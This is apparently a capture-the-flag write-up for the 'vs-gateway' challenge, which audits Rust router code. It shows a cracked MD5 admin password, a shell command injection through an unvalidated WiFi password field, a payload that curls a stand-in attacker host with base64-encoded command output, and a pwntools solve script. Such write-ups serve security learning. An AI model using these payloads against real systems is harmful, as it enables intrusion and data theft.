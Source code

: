 # vs-gateway \[471 Points] (63 Solves)
```
We are developing a new router but not sure if the interface has bug or not. Could you have a look?
```
Attached is [dist/](./dist)

---

## Writeup
`dist/main.rs`? \
Welp, it's time to read some Rust!

First, let's look at main
```rs
fn main() {
    println!("----------------------------");
    println!("|        VS Gateway        |");
    println!("----------------------------");

    if auth(){
        run();
    }
    process::exit(0);
}
```

Ok, so auth first
```rs
fn auth() -> bool{
    let mut username = String::new();
    let mut password = String::new();

    print!("Username: ");
    io::stdout().flush().unwrap();
    io::stdin().read_line(&mut username).expect("Cannot read username!");

    print!("Password: ");
    io::stdout().flush().unwrap();
    io::stdin().read_line(&mut password).expect("Cannot read username!");

    if username.trim() == "admin" && check_password(password){
        println!("Access granted!");
        true
    }
    else{
        println!("Access forbidden!");
        false
    }
}
```
The username must be admin and password...
```rs
fn check_password(password: String) -> bool{
    let digest = md5::compute(password.trim());
    if format!("{:x}", digest) == "e10adc3949ba59abbe56e057f20f883e" {
        true
    }
    else{
        false
    }
}
```
is hashed? Let's Google for the hash

![Search result for searching the hash showing `123456`](./images/google_hash.png)

Ok, so we can log in! _**But what's now?**_

Looking a bit through the code I found this
```rs
fn save_properties_to_file(){
    unsafe{
        let cmd = format!("echo \"{ESSID}\\n{BAND}\\n{CHANNEL}\\n{WIFI_PASSWORD}\" > /tmp/{ID}.conf");
        Command::new("/bin/sh")
                        .arg("-c")
                        .arg(cmd)
                        .output()
                        .expect("Failed to execute command");
    }
}
```
Wait, what's ESSID, BAND, etc?
```rs
pub static mut ESSID: String = String::new();
static BSSID: &str = "94:4e:6f:d7:bf:05";
static mut BAND: String = String::new();
static mut CHANNEL: i32 = 0;
static mut WIFI_PASSWORD: String = String::new();
static mut ID: u64 = 0;
```
Alright, they are global variables

Hmm, _**if we could control their value**_, especially of the ones with type `String`,
_we would be able to run shell commands!_

There's a menu which allows us to change the essid, band, chanel and password
```rs
fn menu(){
    println!("--- MENU ---------------------");
    println!("1. Show properties");
    println!("2. Change essid");
    println!("3. Change wifi band");
    println!("4. Change channel");
    println!("5. Change wifi password");
    println!("6. Exit");
    print!("> ");
    io::stdout().flush().unwrap();
}
```

Looking through the functions behind changing essid, band, we see that there's
**input validation** which won't let us do anything of interest. However if we look at password...
```rs
fn change_wifi_password(){
    let mut input: String = String::new();

    unsafe{
        println!("Current password: {WIFI_PASSWORD}");
        print!("New password: ");
        io::stdout().flush().unwrap();
        input.clear();
        io::stdin().read_line(&mut input).expect("Failed to readline");
        WIFI_PASSWORD = input.trim().to_owned();
        println!("Done!");
    }
    save_properties_to_file();
}
```
**It just sets it!** _Nothing is validated!_

We can break out of the `echo` string, and curl our website to see output of commands like ls and cat
for example
```bash
"; curl https://ATTACKER.COM/$(ls | base64); echo "
```
_We have to convert it to base64 (or url encode it) so the output can be correctly sent to the server via HTTP._

Using `ls`, we find that there's a file `/home/user/flag.txt`, so we can cat it!
```py
io = start()

io.sendlineafter("Username: ", "admin")
io.sendlineafter("Password: ", "123456")

io.sendlineafter("> ", "5") # Select change password option

ATTACKER = "webhook.site/your_webhook_here"
io.sendlineafter("New password: ", f'"; curl https://{ATTACKER}/$(cat /home/user/flag.txt | base64); echo "')

io.close()
```

[solve.py](./solve.py)

**Flag:** `vsctf{1s_1t_tru3_wh3n_rust_h4s_c0mm4nd_1nj3ct10n!??}`

